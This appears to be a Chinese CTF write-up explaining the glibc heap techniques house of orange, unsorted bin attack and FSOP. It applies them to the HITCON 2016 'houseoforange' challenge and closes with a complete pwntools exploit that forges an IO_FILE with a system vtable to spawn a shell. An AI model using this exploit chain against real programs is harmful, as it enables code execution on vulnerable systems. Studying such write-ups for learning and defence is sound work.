## 写在前面：

通过学习house of orange，又对unsorted bin attack以及FSOP有了一些新的理解。说到底house of orange本身的效果很小，但加上两个组合拳(unsorted bin attack和FSOP)则威力就会变的很大。这篇文章我将对这三种手法都详细记录一下原理和利用方式，最后放上例题。


## 总结：

在此，先对house of orange以及后续整体的流程简单总结一下：

>  最开始我们先用house of orange将原本的top chunk放入unsorted bin中。然后利用溢出篡改unsorted bin里的chunk的size为0x60，同时还篡改了该chunk的bk指针。最后我们申请一个任意大小的chunk，开始触发攻击链，首先ptmalloc会先遍历unsorted bin(此时前面已经遍历了fast bin和small bin)，ptmalloc的策略是一边遍历unsorted bin尝试寻找和自己需要的size完全相同的chunk，一边给不符合条件的chunk分下类(也就是放到small bin或者large bin)。在分类的时候就会将在unsorted bin上的chunk给脱链，然后触发unsorted bin attack，此时的IO_list_all被写入main_arena+88的地址，然后发现chunk的size为0x60，于是给划分到了small bin里。而\_IO\_2_1\_stderr的\_chain字段正好落在了small bin[0x60]上，于是乎我们就控制了\_IO_2_1_stdout里的内容。然后为了接下来的FSOP攻击做好布局(控制stdout结构体其实就是堆溢出来编辑最开始进入的那个unsorted bin里的堆块内容)。然后ptmalloc还会继续去遍历unsorted bin(因为unsorted bin被unsorted bin attack攻击破坏的原因，让ptmalloc以为unsorted bin还有chunk)，但是此时的victim(也就是当前unsorted bin准备链出的chunk)已经是最开始覆盖unsorted bin bk的值了(也就是IO_list_all-0x10)。然此时的victim->size为0，没有通过检查，于是就触发了malloc_printerr，调用了abort，最终刷新所有文件流的时候，到stdout结构体时触发了FSOP，成功获取shell。

其实整体流程就是把后续的unsorted bin attack和FSOP运用到了极致。

## house of orange

> 什么是house of orange?
>
> house of orange该攻击手法是在我们没有free函数的情况下，来获得一个在unsorted bin中的堆块。house of orange到这里就结束了，但之后还会利用其他的手法来拿到shell。
>
> 原理：
>
> 如果我们申请的堆块大小大于了top chunk size的话，那么就会将原来的top chunk放入unsorted bin中，然后再映射或者扩展一个新的top chunk出来。
>
> 利用过程：
>
> 1、先利用溢出等方式进行篡改top chunk的size(具体要求的话下面再说)
>
> 2、然后申请一个大于top chunk的size

然后主要说一下我们具体需要绕过的检查

主要就是下面两个断言(如下)

```c
  old_top = av->top;//原本old top chunk的地址
  old_size = chunksize (old_top);//原本old top chunk的size
  old_end = (char *) (chunk_at_offset (old_top, old_size));//old top chunk的地址加上其size

  brk = snd_brk = (char *) (MORECORE_FAILURE);

  /*
     If not the first time through, we require old_size to be
     at least MINSIZE and to have prev_inuse set.
   */

  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
  
```

如果是第一次调用该函数，那么top chunk是没有被初始化的，并且其size自然为0 ，我们利用的时候，这里肯定不成立，暂且不用管

如果上面这个条件不成立的话，就需要保证原本old top chunk的size大于MINSIZE,还需要保证原本old top chunk的prev_inuse位是1,并且原本old top chunk的地址加上其size之后的地址要与页对齐 也就是address&0xfff=0x000。最后old chunk的size必须要小于我们申请的堆块大小加上MINSIZE。

最后就是要注意如果我们申请的堆块大于了0x20000，那么将会是mmap映射出来的内存，并非是扩展top chunk了。


总结下，我们需要绕过检查所需要构造的值：

old_top_size(我们通过溢出修改)     nb（我们申请的堆块大小）

> MINSIZE<old_top_size<nb+MINSIZE
>
> old_top_size的prev_size位是1
>
> (old_top_size+old_top)&0xfff=0x000
>
> nb<0x20000

构造完成后，我们申请出来nb大小的堆块，那么top chunk就会进入到unsorted bin中。








此时就完成了攻击前的准备阶段，而接下来需要先介绍一下unsorted bin attack。

## unsorted bin attack

unsorted bin attack这个攻击手法最终可以实现往一个指定地址里写入一个很大的数据（main_arena+88或main_arena+96）

关于这个手法的学习，必须要搞清楚两件事，不然理解起来挺懵的。

第一、从unsorted bin中取堆块的时候，是从尾部取的堆块。




第二、把上述的情况，画成图，应该是下面这个样子




知道上面这两件事之后，下面理解起来就很容易了。

就是当从unsorted bin中拿取最后一个堆块时（unsorted bin中堆块是从最后一个取的，跟fastbin和tcachebin还不一样），会触发下面这部分的操作。**\(下面这部分操作是在遍历unsorted bin给其堆块分类到small bin或者large bin中完成的，也就是说我们只要覆写了unsorted bin中chunk的bk指针，在下一次遍历unsorted bin的时候，都可以让bk+0x10的位置写入main_arena+88/96的地址(无论nb是否等于size)，但是如果申请的大小不等同于原本位于unsorted bin中的堆块，就会在后续的检查中导致程序崩溃。)**

```c
victim = unsorted_chunks (av)->bk
bck = victim->bk
unsorted_chunks (av)->bk = bck
bck->fd = unsorted_chunks (av)
```

如果看着代码挺懵，我就简单分析一下。

```
victim = unsorted_chunks (av)->bk
这个就是说把main_arena（这里的main_arena我的指的是上图的那个main_arena bins[0,1]这个块)的bk指针指向的内容（也就是chunk3的地址）给victim
换言之，这行代码的意思就是说victim就是chunk3
```

```
bck = victim->bk
这个就是把chunk3的bk指针指向的内容（也就是chunk2)给bck
换言之，这行代码的意思就是说bck就是chunk2
```

```
unsorted_chunks (av)->bk = bck
这个就是把现在的chunk2地址给main_arena的bk指针
```

```
bck->fd = unsorted_chunks (av)
这个就是把main_arena的地址给bck（也就是chunk2)的fd指针
```

而这四步之后，也就将chunk3从这个双向链表中踢了出去。

这四步中，我们可以从第二步进行攻击，如果我们可以利用溢出来伪造这个bck(也就是victim->bk，**大白话就是用溢出unsorted bin中的尾部的chunk的bk指针（fd指针无所谓）**），这就意味着我们可以将unsorted_chunks (av)(这个也就是main_arena+88/96的地址)写入到我们伪造的bck->fd(也就是bck+0x10)中。**如果我们将伪造的地址先-0x10，那么最后这个伪造的地址就会被写入main_arena+88或main_arena+96的地址。**伪造之后，我们从unsorted bin中将堆块申请出来**\(如果篡改的这个位于unsorted bin中的堆块size为0x900，那就必须要申请0x900堆块，不能小于(因为这样会将堆块进行切割)也不能大于(因为大于的话就不会从unsorted bin中拿堆块了))，当把0x900的堆块申请出来时，就完成了地址写入。**

听起来感觉挺秀，但是仔细一想似乎没啥用，好像这只能把一个很大的数值写到我们指定的地点（因此这个攻击也是一个辅助的攻击手段，还需要配合其他攻击才能发挥出来相当大的效果）。

> **注意：由于执行完unsorted bin attack 后的chunk2已经变成了一个libc中的地址（应该是main_arena+88的地址），接下来再从unsorted bin中申请堆块时，执行bck->fd这步试图往libc这个不可写的地址写入数据，而导致程序崩溃。<u>所以unosrtedbin attack之后，无法再从unsorted bin中申请堆块了</u>**


配合刚才的house of orange攻击后产生的位于unsorted bin中的堆块，如果我们能够覆盖这个位于unsorted bin中堆块的bk指针，那么我们就能够往任意地址写一个main_arena+88(96)。而我们要去通过unsorted bin attack向\_IO\_list\_all写入这个地址main_arena+88,然后去打一个FSOP。

## FSOP:

FSOP的核心是去篡改\_IO\_list\_all和_chain，来劫持IO_FILE结构体。让IO_FILE结构体落在我们可控的内存上。然后在FSOP中我们使用\_IO_flush_all_lockp来刷新\_IO\_list\_all链表上的所有文件流，也就是对每个流都执行一下fflush，而fflush最终调用了vtable中的\_IO\_overflow

而前面提到了，我们将IO_FILE结构体落在我们可控的内存上，这就意味着我们是可以控制vtable的，**我们将vtable中的\_IO\_overflow函数地址改成system地址即可**，而这个函数的第一个参数就是IO_FILE结构体的地址，因此我们让IO_FILE结构体中的flags成员为/bin/sh字符串，那么当**执行exit函数**或者**libc执行abort流程时**或者**程序从main函数返回时**触发了\_IO_flush_all_lockp即可拿到shell

下面是链表的正常结构




下面是FSOP的布局，首先篡改\_IO\_list_all为main_arena+88这个地址(因为这片内存是不可控的)，chain字段是首地址加上0x68偏移得到的。因此chain字段决定了下一个IO_FILE结构体的地址为main_arena+88+0x68，这个地址恰好是smallbin中size为0x60的数组，如果我们能将一个chunk放到这个small bin中size为0x60的链上，那么篡改\_IO\_list_all为main_arena+88这个地址后，small bin中的chunk就是IO_FILE结构体了，将其申请出来后，我们就可以控制这块内存了，从而伪造vtable字段进行布局最终拿到shell。




下面说一下布局时需要篡改哪些字段来绕过if的检查。

```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
```

观察上面的代码发现，如果我们要想执行_IO_OVERFLOW (fp, EOF)就需要让最外面的if中&&前面的那部分成立，而这部分中间又用了一个||来连接两个条件，分别是`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base`和`_IO_vtable_offset (fp) == 0 && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr> fp->_wide_data->_IO_write_base`
这两部分条件任意满足一处即可，前面那个部分的条件满足起来很省事，我们只需要让mode=0,\_IO\_write\_ptr=1,\_IO\_write\_base=0即可(这仨值改成其他的也行，只需要满足条件即可)，这样就会触发\_IO_OVERFLOW。


**注意：**

为什么house of orange后打FSOP成功的概率是1/2？

由于触发了\_IO_flush_all_lockp函数，会根据\_IO\_list\_all和chain字段来去依次遍历链表上的每个结构体，在我们整体布局完成后，第一个结构体就是从main_arena+88开始。而第一个结构体的mode字段是main_arena+88+0xc0处的数据决定的(如下图)。**mode字段是四字节**




而上面这个地址由于libc地址随机化 导致这个值的补码可能是正也可能是负，也就是说这四个字节可能是0到0xffffffff之间的任意值，但是如果大于0x7fffffff的话该值就为负，小于则为正。这个0xffffffff/2的值 正好就是最大的正值为0x7fffffff 所以刚好_mode字段为负的概率是1/2

**那为啥非要这个mode字段为负才行呢？**

因为倘若mode为正，则上面if检查的这部分`fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base` 就会成立。这样就会触发_IO_OVERFLOW函数(可此时在遍历第一个IO_FILE结构体)，但是我们的布局是在第二个IO_FILE结构体上，我们需要的是遍历到第二个IO_FILE结构体的时候触发 IO_OVERFLOW函数。如果遍历第一个结构体时触发了\_IO\_OVERFLOW函数,程序则会崩溃，因为我们无法控制vtable表项。

> house of orange中的函数调用流程为：
>
> \_\_libc_malloc->malloc_printerr->libc_message->abort->_IO_flush_all_lockp

IO_FILE结构体：

```c
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable

```


vtable中的函数指针：

```c
const struct _IO_jump_t _IO_wstrn_jumps attribute_hidden =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_wstr_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wstrn_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wstr_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wstr_pbackfail),
  JUMP_INIT(xsputn, _IO_wdefault_xsputn),
  JUMP_INIT(xsgetn, _IO_wdefault_xsgetn),
  JUMP_INIT(seekoff, _IO_wstr_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_wdefault_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};

```

## 例题

### houseoforange_hitcon_2016

#### 保护策略：




#### 漏洞所在：




在edit函数中，往堆块里写入数据时，又询问了一次size，因此edit函数中存在堆溢出。

不过这道题的难点在于题目中没有free函数，这就意味着我们以前的手法几乎无法利用。而house of orange可以去产生一个位于unsorted bin中的堆块。

#### 利用过程：

##### house of orange:

因此我们这道题先打一个house of orange，做出来一个被释放掉的堆块再说。

这部分的exp如下：

```py
    add(0x10,'a')
    debug(p,'pie',d_e,d_a,d_s)
    edit(0x40,b'b'*0x18+p64(0x21)+p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
    add(0x1000,'c'*8)
```

调试过程如下：




然后我们申请一个0x1000的堆块，发现top chunk不够用了，就会将旧的top chunk给释放掉(如下)




##### 泄露地址：

此时我们通过打house of orange得到了一个unsorted bin中的堆块，但是为了之后的手法顺利进行，我们还需要拿到一个堆地址和libc地址。而这道题其实还存在一个漏洞，就是忘记在输入函数中输入数据后，给字符串末尾加上\x00了，这就导致了只要让堆块进入unsorted bin中，就会残留fd和bk指针，再次申请的时候即可泄露libc。但是我们还需要堆地址，就需要申请一个largebin size的chunk。

由于最初遍历unsorted bin的时候，会将其中的堆块分类放入small bin或者large bin中，这样程序中那个大堆块就会被分到large bin中，然后启用fd_nextsize和bk_nextsize指针(堆地址就会残留到这上面)

从large bin申请出来的chunk上面残留了libc和堆地址，我们执行show函数即可进行泄露



这部分exp如下：

```py
    add(0x400,'d'*8)
    show()
    leak_libc=recv_libc()
    libc_base=leak_libc-0x3c5188
    log_addr('libc_base')
    io_list_all=libc_base+libc.symbols['_IO_list_all']
    sys_addr=libc_base+libc.symbols['system']
    edit(0x20,'e'*0x10)
    
    show()
    p.recvuntil('e'*0x10)
    leak_heap=u64(p.recv(6).ljust(8,b'\x00'))
    log_addr('leak_heap')
```


##### unsorted bin attack：

正如上文提到的，在house of orange之后，我们需要打unsorted bin attack将main_arena+88/96的地址写入\_IO\_list\_all。 这里利用溢出，直接去修改chunk的bk指针为\_IO\_list\_all-0x10即可(如下图)




这样等到下一次malloc申请堆块的时候，就会将main_arena+88的地址写入\_IO\_list\_all（如下）




由于链表头\_IO\_list\_all已经被篡改，就导致了之后的IO_FILE结构体也都被破坏了，我们看下现在链表上第一个的结构体(如下)




现在的chain字段的地址如下


而这个地址是smallbin中size为0x60的数组的位置，假设我们在smallbin中为0x60的大小的堆块，那我们将堆块申请出来，写入的数据就可以直接控制第二个IO_FILE结构体。让smallbin中出现一个0x60的堆块的方法是提前用edit函数来篡改位于unsorted bin中堆块的size，然后再次调用malloc函数的时候会去遍历各个bins，遍历unsorted bin的时候会将该bins的堆块进行分类(放入small bin或者large bin中)

因为篡改size为0x60，所以该堆块便会进入small bin中size为0x60的链表中。再次分配出来时，我们即可控制第二个IO_FILE结构体。(如下图，此时是堆块进入了smallbin中，可以发现此时的chain字段已经变成了我们堆块的地址)




##### FSOP：

上图的chain字段成功为堆地址，就说明我们已经可以控制下一个的IO_FILE结构体了，下面说一下如何构造各个字段的值来完成FSOP。

将_flags字段写入/bin/sh

将 _IO_write_ptr改成0x1 

将 _IO_write_end改成0x0

将_mode改成0

将vtable的地址改成&vtable

然后在vtable字段后再跟16个字节的0最后写上system函数的地址即可。

布局完成后，结构体中的数据应该如下：



然后等执行libc_message的时候会调用abort最后触发_IO_flush_all_lockp，不过在这之前我们已经布局好了IO_FILE结构体中的各个值。最终到\_IO\_overflow时触发system(“/bin/sh\x00”)获取shell。

unsorted bin attack和FSOP攻击都是构造数据在一个payload里的。

payload如下：

```py
    payload=b'f'*0x400
    payload+=p64(0)+p64(0x21)
    payload+=p64(sys_addr)+p64(0)
    payload+=b'/bin/sh\x00'+p64(0x61) #old top chunk prev_size & size 同时也是fake file的_flags字段
    payload+=p64(0)+p64(io_list_all-0x10) #old top chunk fd & bk
    payload+=p64(0)+p64(1)#_IO_write_base & _IO_write_ptr
    payload+=p64(0)*7
    payload+=p64(leak_heap+0x430)#chain
    payload+=p64(0)*13
    payload+=p64(leak_heap+0x508)#vtable
    payload+=p64(0)+p64(0)+p64(sys_addr)#DUMMY finish overflow
```

总结下这题的整体流程：首先利用溢出来篡改top chunk的size字段，申请一个大的size来打一个house of orange让堆块进入unsorted bin中，然后申请出来的size要属于large bin的范围这样就可以同时泄露出libc和堆地址了。此时我们的unsorted bin中依然有堆块，我们去利用溢出打一个unsorted bin attack，将\_IO\_list\_all中写入main_arena+88，这就已经控制了第一个IO_FILE结构体地址了，但是里面的字段我们控制不了，不过该结构体的chain字段地址位于small bin中size为0x60的数组，我们将unsorted bin中这个堆块的size用溢出改为0x61，这样再次申请出来后我们就可以控制第二个IO_FILE结构体了，布置好需要绕过检查的数据最后打一个FSOP即可获取shell。

##### 补充：

house of orange利用过程中，最后程序触发abort刷新流的原因是在unsorted bin attack打完之后 在第二次遍历unsorted bin给堆块分类的时候 由于unsorted bin已经被破坏，然后victim已经是一个libc地址(在下面的这张图片该地址是io_list_all-0x10的地址，这个地址也就是我们篡改bk指针的值)，而其对应的size位是0，从而没有通过检查(如下)，最终触发了abort






#### EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
context.log_level='debug'
d_d=0x400DEE
d_a=0x13FD
d_e=0x1415
d_s=0x1409
p,e,libc=load("a","")
#libc=ELF('/home/hacker/Desktop/buu64-libc-2.23.so')

def add(size,content):
    p.sendlineafter('Your choice : ',str(1))
    p.sendlineafter('Length of name :',str(size))
    p.sendafter('Name :',content)
    p.sendlineafter('Price of Orange:',str(1))
    p.sendlineafter('Color of Orange:',str(2))


def edit(size,content):
    p.sendlineafter('Your choice : ',str(3))
    p.sendlineafter('Length of name :',str(size))
    p.sendafter('Name:',content)
    p.sendlineafter('Price of Orange:',str(1))
    p.sendlineafter('Color of Orange:',str(2))


def delete(index):
    p.sendlineafter('4.show\n',str(2))
    p.sendlineafter('index:\n',str(index))
    
def show():
    p.sendlineafter('Your choice : ',str(2))


def pwn():
    add(0x10,'a')
    edit(0x40,b'b'*0x18+p64(0x21)+p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
    add(0x1000,'c'*8)
    
    add(0x400,'d'*8)
    show()
    leak_libc=recv_libc()
    libc_base=leak_libc-0x3c5188
    log_addr('libc_base')
    io_list_all=libc_base+libc.symbols['_IO_list_all']
    sys_addr=libc_base+libc.symbols['system']
    edit(0x20,'e'*0x10)
    
    show()
    p.recvuntil('e'*0x10)
    leak_heap=u64(p.recv(6).ljust(8,b'\x00'))
    log_addr('leak_heap')
    #debug(p,'pie',d_e,d_a,d_s)
    payload=b'f'*0x400
    payload+=p64(0)+p64(0x21)
    payload+=p64(sys_addr)+p64(0)
    payload+=b'/bin/sh\x00'+p64(0x61) #old top chunk prev_size & size 同时也是fake file的_flags字段
    payload+=p64(0)+p64(io_list_all-0x10) #old top chunk fd & bk
    payload+=p64(0)+p64(1)#_IO_write_base & _IO_write_ptr
    payload+=p64(0)*7
    payload+=p64(leak_heap+0x430)#chain
    payload+=p64(0)*13
    payload+=p64(leak_heap+0x508)
    payload+=p64(0)+p64(0)+p64(sys_addr)
    edit(0x1000,payload)
    p.sendlineafter('Your choice : ',str(1))
    p.interactive()
pwn()
```




## 参考文章：

[House of orange - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/218887#h3-5)

[(41条消息) FSOP_TTYflag的博客-CSDN博客](https://blog.csdn.net/qq_45595732/article/details/110173579)

[][原创\] CTF 中 glibc堆利用 及 IO_FILE 总结-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-272098.htm#msg_header_h3_16)

[houseoforange_hitcon_2016 - LynneHuan - 博客园 (cnblogs.com)](https://www.cnblogs.com/LynneHuan/p/14696780.html#houseoforange_hitcon_2016)

[House of Orange - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/)
